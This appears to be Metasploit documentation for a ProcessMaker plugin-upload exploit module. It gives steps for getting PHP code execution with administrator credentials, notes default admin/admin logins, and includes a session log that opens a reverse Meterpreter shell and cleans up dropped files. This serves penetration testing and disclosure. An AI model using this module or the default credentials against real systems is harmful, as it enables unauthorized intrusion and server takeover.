 ## Description

  This module will generate and upload a plugin to ProcessMaker resulting in execution of PHP code as the web server user.

  Credentials for a valid user account with Administrator roles is required to run this module.


## Vulnerable Application

  [ProcessMaker](https://www.processmaker.com/) workflow management software allows public and private organizations to automate document intensive, approval-based processes across departments and systems. Business users and process experts with no programming experience can design and run workflows.

  This module has been tested successfully on ProcessMaker versions:

  * 1.6-4276, 2.0.23, 3.0 RC 1, 3.2.0, 3.2.1 on Windows 7 SP 1
  * 3.2.0 on Debian Linux 8

  Source and Installers:

  * [ProcessMaker](https://sourceforge.net/projects/processmaker/files/ProcessMaker/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/http/processmaker_plugin_upload`
  3. Do: `set RHOST [IP]`
  4. Do: `set USERNAME [USERNAME]` (default: `admin`)
  5. Do: `set PASSWORD [PASSWORD]` (default: `admin`)
  6. Do: `set WORKSPACE [WORKSPACE]` (default: `workflow`)
  7. Do: `run`
  8. You should get a session


## Options

  **Username**

  The username for a ProcessMaker user with Administrator roles (default: `admin`).

  **Password**

  The password for the ProcessMaker user (default: `admin`).

  The default password for the `admin` user is `admin` on ProcessMaker versions 1.x and 2.x.

  For ProcessMaker 3.x onwards, the default password is specified during installation and cannot be the same as the username.

  However; when creating a new workspace a new user with Administrator roles is also created. The default username and password for the new user are `admin` and `admin` respectively.

  **Workspace**

  The ProcessMaker workspace for which the specified user has Administrator roles. (default: `workflow`)


## Scenarios

  ```
  msf > use exploit/multi/http/processmaker_plugin_upload 
  msf exploit(processmaker_plugin_upload) > set rhost 172.16.191.202
  rhost => 172.16.191.202
  msf exploit(processmaker_plugin_upload) > set username admin
  username => admin
  msf exploit(processmaker_plugin_upload) > set password admin
  password => admin
  msf exploit(processmaker_plugin_upload) > set workspace sample
  workspace => sample
  msf exploit(processmaker_plugin_upload) > set rport 8080
  rport => 8080
  msf exploit(processmaker_plugin_upload) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] Authenticating as user 'admin'
  [+] 172.16.191.202:8080 Authenticated as user 'admin'
  [*] 172.16.191.202:8080 Uploading plugin 'zqkMpDOiIlNEvhkNnV' (23552 bytes)
  [*] Sending stage (33986 bytes) to 172.16.191.202
  [*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.202:36592) at 2017-06-10 04:21:25 -0400
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV-.tar
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV.php
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV/class.zqkMpDOiIlNEvhkNnV.php

  meterpreter > getuid
  Server username: user (1000)
  meterpreter > sysinfo 
  Computer    : debian
  OS          : Linux debian 3.16.0-4-amd64 #1 SMP Debian 3.16.43-2 (2017-04-30) x86_64
  Meterpreter : php/linux
  ```

